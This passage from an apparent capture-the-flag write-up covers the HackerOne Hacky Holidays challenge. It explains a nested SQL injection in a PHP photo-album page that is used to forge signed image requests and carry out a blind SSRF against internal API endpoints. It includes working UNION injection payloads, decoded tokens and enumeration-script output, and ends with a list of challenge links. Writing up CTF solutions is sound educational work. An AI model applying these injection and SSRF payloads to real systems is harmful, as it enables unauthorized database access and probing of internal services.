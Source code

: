 Something like
```
$hash = "select * from albums where hash=".$_GET['hash'].";";
```
So `$hash` is the object which contains rows returned by query which contain 3 columns `id, hash and name`.
In the data returned one of the columns id is called
Which is used for “select * from photos where album_id = id “ like
```
$images = "select * from photos where album_id=".$hash['id'].";";
```
`$images` is the object containing names of images, so server takes names of images and creates a JSON object with `image` and `auth` parameters where in image parameter it adds image name to `r3c0n_server_4fdk59\/uploads\/imagename` and generates auth token for this and converts it to base64.
So, the goal here is to control name of image to achieve the SSRF.
Here nested SQL injection comes in play. The results returned by first query where we can inject contains 3 columns id, hash and name. Here we have inject control the id which is easy to control using union query like `abc` union select 1,1,'hash' -- -` but it is not enough, we have to control the data returned by next query, thanks to object property in php, we can can inject into next query by using union injection inside id
```
abc' UNION SELECT "2' UNION SELECT 1,1,'datawecontrol' -- -",'1',1-- -
```
First we are injecting inside `hash` parameter and creating an object which is an union injection.
Using above query I got result as,
```javascript
<div class="col-md-4">
                        <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMyZmViYjE5NTcyYjEyNDM1YTZhMzkwYzA4ZThkM2RhLmpwZyIsImF1dGgiOiI3NmJhMDYxZDM1NmM2MjY0YTYwMDUyMTZlMTc3NmJhNiJ9">
                    </div>

                
                    <div class="col-md-4">
                        <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2RhdGF3ZWNvbnRyb2wiLCJhdXRoIjoiYWNmNzRkMTMzMmIxYTk3MjRhNzUyOTFmMjU2ZTY1ZDkifQ==">
                    </div>
```
Base64 decoded 2nd value and got the thing we control
```
{"image":"r3c0n_server_4fdk59\/uploads\/datawecontrol","auth":"acf74d1332b1a9724a75291f256e65d9"}
```
And server created auth token for us to perform SSRF.
When I entered something which does not exist on website like above example, I got response as
{F1132665}
Indicating it is performing request and 404 for not found, so by this way we can enumerate valid api endpoints and also when I sent something which is valid like `../api/` page I got response as
{F1132666}
So a blind SSRF, All we have to do based on response codes as described on [api][31] page.
[31]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api      "api"
So created a python script which is attached to do all these, thanks again to `MrKn0w1t4ll` here
{F1132643}
Got 2 valid endpoints( Filtering based on response code if 404 then invalid else valid)
Query used `abc' UNION SELECT "2' UNION SELECT 1,1,'../api/endpoint' -- -",'1',1-- -`
```
─[shubham@parrot]─[~/hackyholidays/reconserver]
└──╼ $python3 endpoint.py 
[+] Valid endpoint found: ping
[+] Valid endpoint found: user
```
Endpoint `user` seems interesting tried to find valid parameters and got 2 valid parameters.(Filtering based on response code if 400 then invalid parameter else valid parameter)
Query used `abc' UNION SELECT "2' UNION SELECT 1,1,'../api/user?parameter=abc' -- -",'1',1-- -`
```
─[shubham@parrot]─[~/hackyholidays/reconserver]
└──╼ $python3 endpoint.py 
```

[1]: https://hackerone.com/h1-ctf         "https://hackerone.com/h1-ctf"
[2]: https://hackyholidays.h1ctf.com/robots.txt       "https://hackyholidays.h1ctf.com/robots.txt"
[3]: https://hackyholidays.h1ctf.com/s3cr3t-ar3a "https://hackyholidays.h1ctf.com/s3cr3t-ar3a"
[5]: https://hackyholidays.h1ctf.com/swag-shop     "https://hackyholidays.h1ctf.com/swag-shop"
[6]: https://hackyholidays.h1ctf.com/swag-shop/api/sessions             "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
[7]: https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043    "/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
[8]: https://hackyholidays.h1ctf.com/secure-login          "https://hackyholidays.h1ctf.com/secure-login"
[8]: https://hackyholidays.h1ctf.com/my-diary/         "https://hackyholidays.h1ctf.com/my-diary/"
[9]: https://hackyholidays.h1ctf.com/my-diary/?template=index.php       "index.php"
[10]: https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php    "https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php"
[11]: https://hackyholidays.h1ctf.com/hate-mail-generator   "https://hackyholidays.h1ctf.com/hate-mail-generator"
[12]: https://hackyholidays.h1ctf.com/hate-mail-generator/templates/      "https://hackyholidays.h1ctf.com/hate-mail-generator/templates/"
[14]: https://github.com/Grinch-Networks/forum                 "https://github.com/Grinch-Networks/forum"
[13]: https://hackyholidays.h1ctf.com/forum              "https://hackyholidays.h1ctf.com/forum"
[15]:  https://hackyholidays.h1ctf.com/forum/phpmyadmin    "phpmyadmin"
[16]: https://hashes.org/search.php       "hashes.org"
[17]: https://hackyholidays.h1ctf.com/forum/login          "login"
[18]: https://hackyholidays.h1ctf.com/evil-quiz           "https://hackyholidays.h1ctf.com/evil-quiz"
[19]: https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/   "this"
[20]: https://hackyholidays.h1ctf.com/evil-quiz/admin       "admin"
[21]: https://hackyholidays.h1ctf.com/signup-manager/         "https://hackyholidays.h1ctf.com/signup-manager/"
[22]: https://hackyholidays.h1ctf.com/signup-manager/README.md   "https://hackyholidays.h1ctf.com/signup-manager/README.md"
[23]: https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip     "https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip" 
[24]: https://www.php.net/manual/en/function.is-numeric.php        "here"
[25]: https://www.php.net/manual/en/language.types.float.php      "number"
[26]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59            "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59"
[27]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api       "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api"
[28]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k    "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"
[29]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg"
[30]: https://captnemo.in/blog/2012/06/09/nested-sql-injections/   "Here"
[32]: https://github.blog/2015-11-03-like-injection/      "like"
[32]: https://hackyholidays.h1ctf.com/attack-box/login     "attack-box"
[33]: https://en.wikipedia.org/wiki/DNS_rebinding   "DNS-rebinding"
[34]: https://github.com/taviso/rbndr    "https://github.com/taviso/rbndr"